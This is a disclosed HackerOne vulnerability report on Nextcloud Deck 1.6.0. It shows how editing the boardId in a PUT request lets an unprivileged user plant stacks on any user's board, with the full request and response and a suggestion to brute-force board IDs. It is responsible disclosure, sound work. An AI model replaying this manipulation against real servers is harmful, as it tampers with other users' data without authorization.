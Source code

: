 # Nextcloud Deck : Possibility for anyone to add a stack with existing tasks on anyone's board

## Report Details
- **Report ID**: 1450117
- **URL**: https://hackerone.com/reports/1450117
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-01-14T23:58:20.041Z
- **Disclosed**: 2022-05-20T10:37:23.448Z

## Reporter
- **Username**: supr4s
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
Hi everyone,

Hope you are well ! 

I found an IDOR vulnerability, allowing any user without privilege to add lists with tasks in any user board.
This was tested on a Nextcloud Hub II server (v23) with the Deck application in version 1.6.0.

## Steps To Reproduce:

Beforehand: 

- Have an A user with a board ID specific to that user (`boardId` parameter)
- Have a user B with a board ID specific to that user (`boardId` parameter)
- Note that there is no link between our user A and user B

**1°)** With your user A, rename an existing list belonging to him. 

The following PUT request is made :

```
PUT /apps/deck/stacks/31 HTTP/1.1
Host: nextcloud.yourserver.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: application/json, text/plain, */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
requesttoken: <token>
Content-Length: 136
Origin: https://nextcloud.yourserver.com
Connection: close
Cookie: <your_session_cookies>

{"title":"IDOR","boardId":14,"deletedAt":0,"lastModified":1642201857,"order":0,"id":31,"ETag":"a5f7e3ab477ee2a2259f0889a63130a8"} 
```

Intercept the request, change the `boardId` parameter to that of your victim (user B)  and play the modified request..

Check the server response that confirms the vulnerability: 

```
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 14 Jan 2022 23:39:49 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 135
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Cache-Control: no-cache, no-store, must-revalidate
Content-Security-Policy: default-src 'none';base-uri 'none';manifest-src 'self';frame-ancestors 'none'
Feature-Policy: autoplay 'none';camera 'none';fullscreen 'none';geolocation 'none';microphone 'none';payment 'none'
X-Robots-Tag: none
Referrer-Policy: no-referrer
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
X-Robots-Tag: none
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none
Strict-Transport-Security: max-age=31536000; includeSubDomains;

{"title":"IDOR_REPORT","boardId":1,"deletedAt":0,"lastModified":1642201857,"order":0,"id":31,"ETag":"a5f7e3ab477ee2a2259f0889a63130a8"}
```

**2°)** With your user B, go to the board in question and notice the addition of a new list with tasks without his knowledge

Additional Notes: 

- This works from one user without privilege to another
- It works from an unprivileged user on the board of an administrator/privileged user
- If this vulnerability is exploited with a list containing several tasks, each containing images, labels, calendar etc., everything is imported to the victim's account
- If our victim deletes the list created without his knowledge, it also deletes it on the attacker's side

## Impact

Broken Access Control - IDOR : The impact here is to be able to add lists with tasks on the board of any user and harm them.
We could imagine here brute-forcing the `boardId` parameter starting from 1 to 1000 (for example) to exploit this vulnerability on all the existing users/tables. We could also create on our victim an incalculable number of lists on his board.

Looking forward to exchanging.

Regards,
Supras

## Attachments
No attachments
